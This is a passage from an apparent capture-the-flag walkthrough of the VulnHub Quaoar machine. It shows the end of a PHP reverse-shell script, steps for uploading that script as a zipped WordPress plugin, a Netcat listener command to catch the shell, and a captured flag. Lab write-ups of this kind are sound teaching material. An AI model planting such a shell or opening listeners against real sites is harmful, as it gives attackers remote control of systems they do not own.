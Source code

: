  ```php

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
 ```
 4. Zip the file and Upload - After the PHP code has been properly formatted, just go ahead and zip it up, then manually install a third-party plugin from the admin's dashboard.

**NOTE:** Before you click 'Install', open up Netcat in order to catch the incoming connection:
```
nc -lvp 1337
```
After that, a connection opens and I've got a shell.

### Gaining root through hardcoded database credentials

As I've said in previous walkthroughs, I don't do post-exploitation very well.
Thankfully, this stage of the challenge is fairly easy.

Looking into the `/home/` directory shows the `wpadmin` user, which can be accessed using the shell:
```
$ ls -alt
total 12
drwxr-xr-x  3 root root 4096 Oct 24  2016 .
drwxr-xr-x  2 root root 4096 Oct 22  2016 wpadmin
drwxr-xr-x 22 root root 4096 Oct  7  2016 ..
$ cd wpadmin
$ ls
flag.txt
```
There's one of the required flags:
**2bafe61f03117ac66a73c3c514de796e**


[VulnHub URL]: <https://www.vulnhub.com/entry/hackfest2016-quaoar,180/>
[PentestMonkey's PHP Shell]: <http://pentestmonkey.net/tools/web-shells/php-reverse-shell>
[b374k shell]: <https://github.com/kieran-walker-0/b374k>
[WP Plugin Handbook]: <https://developer.wordpress.org/plugins/the-basics/header-requirements/>